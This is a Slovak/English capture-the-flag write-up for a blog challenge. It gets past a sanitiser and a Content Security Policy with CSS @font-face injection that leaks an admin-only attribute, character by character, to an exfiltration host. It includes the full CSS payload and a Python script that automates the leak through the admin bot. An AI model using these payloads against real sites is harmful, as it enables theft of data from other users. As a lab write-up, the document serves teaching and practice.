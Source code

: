 # Zadanie

EN: We've received another request for a penetration test. The customer claims they have implemented strong measures against client-side attacks.

**The challenge is available at:** [http://exp.cybergame.sk:7020/](http://exp.cybergame.sk:7020/) **The admin bot is available at:** [http://exp.cybergame.sk:7021/](http://exp.cybergame.sk:7021/)

**Note:** The instances have **no internet access**. If needed, please use a RequestBin service running at [http://exp.cybergame.sk:7023](http://exp.cybergame.sk:7023/) for exfiltration. It is reachable at [http://exfiltration:8000](http://exfiltration:8000/) from within the challenge network.

SK: Dostali sme požiadavku na ďalší penetračný test. Zákazník tvrdí, že implementoval silnú ochranu proti client-side útokom.

**Aplikácia je dostupná na**: [http://exp.cybergame.sk:7020/](http://exp.cybergame.sk:7020/) **Admin bot je dostupný na:** [http://exp.cybergame.sk:7021/](http://exp.cybergame.sk:7021/)

**Poznámka:** Inštancie **nemajú prístup na internet**. Ak je to potrebné, na exfiltráciu použite službu RequestBin bežiacu na [http://exp.cybergame.sk:7023](http://exp.cybergame.sk:7023/). Z vnútra siete je dostupná na adrese [http://exfiltration:8000](http://exfiltration:8000/).

**Súbory**

- memeblog_handout.zip

## Riešenie

Stránka aplikácie na porte 7020 je akýsi blog, do ktorého sa môžeme registrovať a prihlásiť a po prihlásení máme možnosť pridať príspevok. Tento však neuzrie svetlo sveta pokým ho neschváli admin. Čo hovoria dostupné zdrojáky?

Po rozbalení archívu a pozornom prezretí zdrojákov vidím, že máme k dispozícii info o tom, kde sa vlajka nachádza, dokonca aj druhá. Flag1 sa nachádza v `src/includes/header.php`

```php
<?php if ($auth->isLoggedIn() && $auth->isAdmin()): ?>
    <span class="admin-message" flag1="SK-CERT{flag1_for_testing}">Hello, Admin! (˶˃ ᵕ ˂˶)</span>
<?php endif; ?>
```

Vlajka je súčasťou hlavičky stranky, ale vidí ju, resp. má ju v renderovanom zdrojáku len admin.

V zadaní však máme aj admin-bot stránku, čo je vlastne stránka, do ktorej vložíme preview url nášho príspevku, do ktorej sme predtým vložili nejaký obsah.

Stránka sa na prvý pohľad zdá nepriestrená, mnoho častí html kódu, ktorý tam vložíme prechádza kontrolou cez DOMpurify, čo defakto okreše html, aby bol sejf. žiadne skripty ani nič podobné, nehrozia. Ak sa nám podarí niečo vložiť, stále nás obmedzuje csp (Content Security Policy), ktoré máme definované nasledovne

```php
<?php
$nonce = base64_encode(random_bytes(8));

$csp = "script-src 'nonce-$nonce' 'sha256-0fQyyBH4tw1haqwijgfZtcoBLBYVWJPwJ4iJjHFUwRY=' 'sha256-I1rbvXqXZmrMValU4SWC65enfArEBy0F8Yc7lJyp2Ms=' 'unsafe-hashes' 'self'; " .
       "style-src 'self' 'unsafe-inline'; " .
       "img-src 'self'; " .
       "base-uri 'self'; " .
       "object-src 'none'; ";

header("Content-Security-Policy: $csp");
?>
```

Vidíme, že request na obrázky sa pošle, resp prejde len pokiaľ je url priamo zo stránky, ktorú voláme, ale čo mi bije do očí je unsafe-inline v style, takže toto by mohla byť cesta, napríklad "custom" fontom.. Smrdlí to CSS exfiltration, tak rovno skúsim, či mi pošle na reqbin odpoveď keď tam vložím čo poznám, že sa nachádza vo vlajke.

```html
<svg>
<style>
@font-face{font-family:'xx';src:url('http://exfiltration:8000/writeup/ping')}.admin-message[flag1^='SK-CERT{']{font-family:'xx'!important}
</style>
</svg>
```

a na reqbin mi pristál request na ping... Teraz ak pošlem toľlko font riadkov, že za známou známou časťou vlajky sa trafíme na nasledujúci znak, tak taký request by nám mal prísť, ktorý bude obsahovať zhodu.. Takto písmenko po písmenku odhalíme celú vlajku..

Do príspevku vložím probe

```html
<svg>
<style>
@font-face{font-family:'chr0';src:url('http://exfiltration:8000/writeup/SK-CERT{0')}.admin-message[flag1^='SK-CERT{0']{font-family:'chr0'!important}
@font-face{font-family:'chr1';src:url('http://exfiltration:8000/writeup/SK-CERT{1')}.admin-message[flag1^='SK-CERT{1']{font-family:'chr1'!important}
@font-face{font-family:'chr2';src:url('http://exfiltration:8000/writeup/SK-CERT{2')}.admin-message[flag1^='SK-CERT{2']{font-family:'chr2'!important}
@font-face{font-family:'chr3';src:url('http://exfiltration:8000/writeup/SK-CERT{3')}.admin-message[flag1^='SK-CERT{3']{font-family:'chr3'!important}
@font-face{font-family:'chr4';src:url('http://exfiltration:8000/writeup/SK-CERT{4')}.admin-message[flag1^='SK-CERT{4']{font-family:'chr4'!important}
@font-face{font-family:'chr5';src:url('http://exfiltration:8000/writeup/SK-CERT{5')}.admin-message[flag1^='SK-CERT{5']{font-family:'chr5'!important}
@font-face{font-family:'chr6';src:url('http://exfiltration:8000/writeup/SK-CERT{6')}.admin-message[flag1^='SK-CERT{6']{font-family:'chr6'!important}
@font-face{font-family:'chr7';src:url('http://exfiltration:8000/writeup/SK-CERT{7')}.admin-message[flag1^='SK-CERT{7']{font-family:'chr7'!important}
@font-face{font-family:'chr8';src:url('http://exfiltration:8000/writeup/SK-CERT{8')}.admin-message[flag1^='SK-CERT{8']{font-family:'chr8'!important}
@font-face{font-family:'chr9';src:url('http://exfiltration:8000/writeup/SK-CERT{9')}.admin-message[flag1^='SK-CERT{9']{font-family:'chr9'!important}
@font-face{font-family:'chra';src:url('http://exfiltration:8000/writeup/SK-CERT{a')}.admin-message[flag1^='SK-CERT{a']{font-family:'chra'!important}
@font-face{font-family:'chrb';src:url('http://exfiltration:8000/writeup/SK-CERT{b')}.admin-message[flag1^='SK-CERT{b']{font-family:'chrb'!important}
@font-face{font-family:'chrc';src:url('http://exfiltration:8000/writeup/SK-CERT{c')}.admin-message[flag1^='SK-CERT{c']{font-family:'chrc'!important}
@font-face{font-family:'chrd';src:url('http://exfiltration:8000/writeup/SK-CERT{d')}.admin-message[flag1^='SK-CERT{d']{font-family:'chrd'!important}
@font-face{font-family:'chre';src:url('http://exfiltration:8000/writeup/SK-CERT{e')}.admin-message[flag1^='SK-CERT{e']{font-family:'chre'!important}
@font-face{font-family:'chrf';src:url('http://exfiltration:8000/writeup/SK-CERT{f')}.admin-message[flag1^='SK-CERT{f']{font-family:'chrf'!important}
@font-face{font-family:'chrg';src:url('http://exfiltration:8000/writeup/SK-CERT{g')}.admin-message[flag1^='SK-CERT{g']{font-family:'chrg'!important}
@font-face{font-family:'chrh';src:url('http://exfiltration:8000/writeup/SK-CERT{h')}.admin-message[flag1^='SK-CERT{h']{font-family:'chrh'!important}
@font-face{font-family:'chri';src:url('http://exfiltration:8000/writeup/SK-CERT{i')}.admin-message[flag1^='SK-CERT{i']{font-family:'chri'!important}
@font-face{font-family:'chrj';src:url('http://exfiltration:8000/writeup/SK-CERT{j')}.admin-message[flag1^='SK-CERT{j']{font-family:'chrj'!important}
@font-face{font-family:'chrk';src:url('http://exfiltration:8000/writeup/SK-CERT{k')}.admin-message[flag1^='SK-CERT{k']{font-family:'chrk'!important}
@font-face{font-family:'chrl';src:url('http://exfiltration:8000/writeup/SK-CERT{l')}.admin-message[flag1^='SK-CERT{l']{font-family:'chrl'!important}
@font-face{font-family:'chrm';src:url('http://exfiltration:8000/writeup/SK-CERT{m')}.admin-message[flag1^='SK-CERT{m']{font-family:'chrm'!important}
@font-face{font-family:'chrn';src:url('http://exfiltration:8000/writeup/SK-CERT{n')}.admin-message[flag1^='SK-CERT{n']{font-family:'chrn'!important}
@font-face{font-family:'chro';src:url('http://exfiltration:8000/writeup/SK-CERT{o')}.admin-message[flag1^='SK-CERT{o']{font-family:'chro'!important}
@font-face{font-family:'chrp';src:url('http://exfiltration:8000/writeup/SK-CERT{p')}.admin-message[flag1^='SK-CERT{p']{font-family:'chrp'!important}
@font-face{font-family:'chrq';src:url('http://exfiltration:8000/writeup/SK-CERT{q')}.admin-message[flag1^='SK-CERT{q']{font-family:'chrq'!important}
@font-face{font-family:'chrr';src:url('http://exfiltration:8000/writeup/SK-CERT{r')}.admin-message[flag1^='SK-CERT{r']{font-family:'chrr'!important}
@font-face{font-family:'chrs';src:url('http://exfiltration:8000/writeup/SK-CERT{s')}.admin-message[flag1^='SK-CERT{s']{font-family:'chrs'!important}
@font-face{font-family:'chrt';src:url('http://exfiltration:8000/writeup/SK-CERT{t')}.admin-message[flag1^='SK-CERT{t']{font-family:'chrt'!important}
@font-face{font-family:'chru';src:url('http://exfiltration:8000/writeup/SK-CERT{u')}.admin-message[flag1^='SK-CERT{u']{font-family:'chru'!important}
@font-face{font-family:'chrv';src:url('http://exfiltration:8000/writeup/SK-CERT{v')}.admin-message[flag1^='SK-CERT{v']{font-family:'chrv'!important}
@font-face{font-family:'chrw';src:url('http://exfiltration:8000/writeup/SK-CERT{w')}.admin-message[flag1^='SK-CERT{w']{font-family:'chrw'!important}
@font-face{font-family:'chrx';src:url('http://exfiltration:8000/writeup/SK-CERT{x')}.admin-message[flag1^='SK-CERT{x']{font-family:'chrx'!important}
@font-face{font-family:'chry';src:url('http://exfiltration:8000/writeup/SK-CERT{y')}.admin-message[flag1^='SK-CERT{y']{font-family:'chry'!important}
@font-face{font-family:'chrz';src:url('http://exfiltration:8000/writeup/SK-CERT{z')}.admin-message[flag1^='SK-CERT{z']{font-family:'chrz'!important}
@font-face{font-family:'chr_';src:url('http://exfiltration:8000/writeup/SK-CERT{_')}.admin-message[flag1^='SK-CERT{_']{font-family:'chr_'!important}
@font-face{font-family:'chr-';src:url('http://exfiltration:8000/writeup/SK-CERT{-')}.admin-message[flag1^='SK-CERT{-']{font-family:'chr-'!important}
@font-face{font-family:'chr}';src:url('http://exfiltration:8000/writeup/SK-CERT{}')}.admin-message[flag1^='SK-CERT{}']{font-family:'chr}'!important}
</style>
</svg>
```

preview url mám `[Meme History Blog](http://exp.cybergame.sk:7020/preview.php?id=639999a2f8f72d1e5fa322b72b9c1980)` admin botovi teda pošlem `[Meme History Blog](http://web/preview.php?id=639999a2f8f72d1e5fa322b72b9c1980)`, pretože ako v zadiní píšu, nie je tam prístup na internet a pozorujem reqbin.

A na reqbine sa mi zjavil request `GET /writeup/SK-CERT{n`, super. máme prvé písmenko vlajky a teraz namiesto `SK-CERT{`  dáme všade `SK-CERT{n` a mal by sa objaviť ďalší znak. Postup opakujeme až kým neobjavíme posledné `}`.

Alebo to zautomatizovať skriptom, ktorý priebežne vypýta písmenko a povytvára nové blogposty, ktoré rovno pošle na schválenie adminovi..

```python
#!/usr/bin/env python3
"""
Auto-leaker (font-face varianta)
• z každého pokusu vygeneruje @font-face pravidlo s URL do tvojho RequestBinu
• font priradí k .admin-message iba vtedy, ak prefix vlajky sedí
• CSP neblokuje sťahovanie fontov → z tvojho hooku vidíš, ktorý prefix zafungoval
"""

import requests, string, sys, time
from urllib.parse import urljoin, quote_plus

# ────────────────  NASTAVENIA  ────────────────
BASE_URL_APP  = "http://exp.cybergame.sk:7020/"
VISIT_URL     = "http://exp.cybergame.sk:7021/visit"
WEBHOOK_ID    = "tvojerqbinid" 
COOKIE_HEADER = "PHPSESSID=xxx;" 

# ───────────────────────────────────────────────

WEBHOOK_FULL  = f"http://exfiltration:8000/{WEBHOOK_ID}"
CHARSET       = string.ascii_lowercase + string.digits + "_-}"
PREFIX        = "SK-CERT{"

sess = requests.Session()
sess.headers.update({
    "User-Agent": "Mozilla/5.0 (font-leaker)",
    "Content-Type": "application/x-www-form-urlencoded",
    "Cookie": COOKIE_HEADER
})

def svg_payload(prefix: str) -> str:
    css_lines = []
    for ch in CHARSET:
        guess      = prefix + ch
        url        = f"{WEBHOOK_FULL}/{guess}"
        css_lines += [
            f"@font-face{{font-family:'{ch}';src:url('{url}')}}",
            f".admin-message[flag1^='{guess}']{{font-family:'{ch}'!important}}\n"
        ]
    return (
        "<svg><style>" + "".join(css_lines) + "</style></svg>"
        "\n"
    )

def new_post(html: str) -> str:
    r = sess.post(urljoin(BASE_URL_APP, "create.php"),
                  data={"title": "font-probe", "content": html},
                  allow_redirects=False)
    if r.status_code != 302 or "Location" not in r.headers:
        raise RuntimeError("create.php failed")
    return urljoin(BASE_URL_APP, r.headers["Location"])

def notify_admin(url: str) -> None:
    r = sess.post(VISIT_URL, data={"url": url})
    if r.status_code != 200:
        raise RuntimeError("/visit failed")

try:
    flag = PREFIX
    while not flag.endswith("}"):
        print(f"\n=== prefix: {flag}")
        payload = svg_payload(flag)
        print(payload)
        post_url = new_post(payload)
        post_url = post_url.replace("http://exp.cybergame.sk:7020/", "http://web/")
        print("  • post:", post_url)
        notify_admin(post_url)
        print("  • počkaj na hit →", f"{WEBHOOK_FULL}/<HIT>")
        ch = input("  • ďalší znak > ").strip()
        if len(ch) != 1:
            print("    ⚠ zadaj 1 znak")
            continue
        flag += ch
        time.sleep(0.4)

    print("\n🎉 FILENAME =", flag)

except (KeyboardInterrupt, EOFError):
    print("\n[ukončené]")
except Exception as e:
    print("✖", e, file=sys.stderr)
    sys.exit(1)
```

A na konci máme 

```
  • post: http://web/preview.php?id=97bdbaa8f090b05d9c108ccbc42c4295
  • počkaj na hit → http://exfiltration:8000/writeup/<HIT>
  • ďalší znak > }

🎉 FLAG = SK-CERT{n0_js_n0_fun_they_s41d}
```

## Vlajka

    SK-CERT{n0_js_n0_fun_they_s41d}
